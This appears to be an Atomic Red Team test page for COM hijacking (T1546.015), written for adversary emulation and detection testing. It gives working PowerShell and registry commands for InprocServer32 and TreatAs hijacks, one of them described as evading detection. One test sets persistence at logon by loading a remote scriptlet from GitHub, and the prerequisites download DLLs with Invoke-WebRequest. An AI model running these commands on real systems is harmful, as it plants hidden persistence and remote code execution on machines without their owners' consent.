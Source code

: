```yaml
---
tags: [T1546_015, atomic_test]
filename: "[[T1546.015|T1546.015 - Event Triggered Execution: Component Object Model Hijacking]]"
---
```

# T1546.015 - Event Triggered Execution: Component Object Model Hijacking

## Atomic Test #1 - COM Hijacking - InprocServer32
This test uses PowerShell to hijack a reference to a Component Object Model by creating registry values under InprocServer32 key in the HKCU hive then calling the Class ID to be executed via rundll32.exe.

Reference: https://bohops.com/2018/06/28/abusing-com-registry-structure-clsid-localserver32-inprocserver32/

**Supported Platforms:** Windows


**auto_generated_guid:** 48117158-d7be-441b-bc6a-d9e36e47b52b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| clsid_threading | Threading Model | string | Apartment|
| dllpath | Path to the DLL. | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;AtomicTest.dll|
| clsid | Class ID to hijack. | string | {B5F8350B-0548-48B1-A6EE-88BD00B4A5E7}|
| clsid_description | Description for CLSID | string | MSAA AccPropServices|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}' -Value '#{clsid_description}'
New-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}\InprocServer32' -Value "#{dllpath}"
New-ItemProperty -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}\InprocServer32' -Name 'ThreadingModel' -Value '#{clsid_threading}' -PropertyType "String"
Start-Process -FilePath "C:\Windows\System32\RUNDLL32.EXE" -ArgumentList '-sta #{clsid}'
```

#### Cleanup Commands:
```powershell
Remove-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}' -Recurse -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: DLL For testing
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dllpath}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.015/bin/AtomicTest.dll" -OutFile "#{dllpath}"
```




<br/>
<br/>

## Atomic Test #2 - Powershell Execute COM Object
Use the PowerShell to execute COM CLSID object.
Reference: https://pentestlab.blog/2020/05/20/persistence-com-hijacking/

**Supported Platforms:** Windows


**auto_generated_guid:** 752191b1-7c71-445c-9dbe-21bb031b18eb






#### Attack Commands: Run with `powershell`! 


```powershell
$o= [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39"))
$item = $o.Item()
$item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","C:\windows\system32",$null,0)
```

#### Cleanup Commands:
```powershell
Get-Process -Name "*calc" | Stop-Process
```





<br/>
<br/>

## Atomic Test #3 - COM Hijacking with RunDLL32 (Local Server Switch)
This test uses PowerShell to hijack a reference to a Component Object Model by creating registry values under InprocServer32 key in the HKCU hive then calling the Class ID to be executed via "rundll32.exe -localserver [clsid]". 
This method is generally used as an alternative to 'rundll32.exe -sta [clsid]' to execute dll's while evading detection. 
Reference: https://www.hexacorn.com/blog/2020/02/13/run-lola-bin-run/
Upon successful execution of this test with the default options, whenever certain apps are opened (for example, Notepad), a calculator window will also be opened.

**Supported Platforms:** Windows


**auto_generated_guid:** 123520cc-e998-471b-a920-bd28e3feafa0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| clsid_threading | Threading Model | string | Both|
| dll_path | Path to the DLL. | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1546.015_calc.dll|
| clsid | Class ID to hijack. | string | {B5F8350B-0548-48B1-A6EE-88BD00B4A5E7}|
| clsid_description | Description for CLSID | string | MSAA AccPropServices|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}' -Value '#{clsid_description}'
New-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}\InprocServer32' -Value "#{dll_path}"
New-ItemProperty -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}\InprocServer32' -Name 'ThreadingModel' -Value '#{clsid_threading}' -PropertyType "String"
Start-Process -FilePath "C:\Windows\System32\RUNDLL32.EXE" -ArgumentList '-localserver #{clsid}'
```

#### Cleanup Commands:
```powershell
Remove-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}' -Recurse -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: DLL For testing
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.015/bin/T1546.015_calc.dll" -OutFile "#{dll_path}"
```




<br/>
<br/>

## Atomic Test #4 - COM hijacking via TreatAs
This test first create a custom CLSID class pointing to the Windows Script Component runtime DLL. This DLL looks for the ScriptletURL key to get the location of the script to execute.
Then, it hijacks the CLSID for the Work Folders Logon Synchronization to establish persistence on user logon by creating the 'TreatAs' with the malicious CLSID as default value. The
test is validated by running 'rundll32.exe -sta "AtomicTest"' to avoid logging out.

References:

https://youtu.be/3gz1QmiMhss?t=1251

https://github.com/enigma0x3/windows-operating-system-archaeology

**Supported Platforms:** Windows


**auto_generated_guid:** 33eacead-f117-4863-8eb0-5c6304fbfaa9






#### Attack Commands: Run with `powershell`! 


```powershell
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\AtomicTest" /ve /T REG_SZ /d "AtomicTest" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\AtomicTest.1.00" /ve /T REG_SZ /d "AtomicTest" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\AtomicTest\CLSID" /ve /T REG_SZ /d "{00000001-0000-0000-0000-0000FEEDACDC}" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\AtomicTest.1.00\CLSID" /ve /T REG_SZ /d "{00000001-0000-0000-0000-0000FEEDACDC}" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}" /ve /T REG_SZ /d "AtomicTest" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\InprocServer32" /ve /T REG_SZ /d "C:\WINDOWS\system32\scrobj.dll" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\InprocServer32" /v "ThreadingModel" /T REG_SZ /d "Apartment" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\ProgID" /ve /T REG_SZ /d "AtomicTest" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\ScriptletURL" /ve /T REG_SZ /d "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.015/src/TreatAs.sct" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\VersionIndependentProgID" /ve /T REG_SZ /d "AtomicTest" /f

reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}\TreatAs" /ve /T REG_SZ /d "{00000001-0000-0000-0000-0000FEEDACDC}" /f

rundll32.exe -sta "AtomicTest"
```

#### Cleanup Commands:
```powershell
reg delete "HKEY_CURRENT_USER\SOFTWARE\Classes\AtomicTest" /f
reg delete "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}" /f
reg delete "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}" /f
```





<br/>
